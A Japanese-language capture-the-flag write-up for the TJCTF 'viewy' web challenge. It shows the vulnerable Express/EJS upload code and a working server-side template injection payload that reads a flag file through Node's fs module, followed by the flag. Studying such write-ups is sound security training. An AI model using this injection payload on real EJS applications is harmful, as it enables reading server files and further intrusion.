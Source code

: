 # viewy:web:XXXXpts
views  
[Instancer](https://instancer.tjctf.org/viewy)  

Downloads  
[server.zip](server.zip)  

# Solution
インスタンス生成URLとソースが配布される。  
生成すると謎のレンダリングサイトであった。  
viewy  
[site.png](site/site.png)  
ソースを見ると以下のようであった。  
```js
~~~
app.post('/', (req, res) => {
  const id = uuidv4();
  const { content } = req.body;
  const fileName = path.join(__dirname, 'views/uploads', `${id}.ejs`);
  fs.writeFileSync(fileName, content);
  return res.redirect('/views/' + id);
});

app.get('/views/:id', (req, res) => {
  if (
    fs.existsSync(path.join(__dirname, 'views/uploads', `${req.params.id}.ejs`))
  ) {
    res.render('view', { id: req.params.id });
  } else {
    res.status(404).send('Not found');
  }
});
~~~
```
コンテンツを投稿できるようで、ejsを自由に記述できる。  
明らかなSSTIであるので以下のペイロードを送信し、flag.txtを読み取る(flag.txtの場所はソースファイルより一階層上であるとわかる)。  
```ejs
<%- global.process.mainModule.require('fs').readFileSync('../flag.txt').toString() %>
```
flag  
[flag.png](site/flag.png)  
flagが読み取れた。  

## tjctf{4l1_th3_v1eW5_wh3333e333}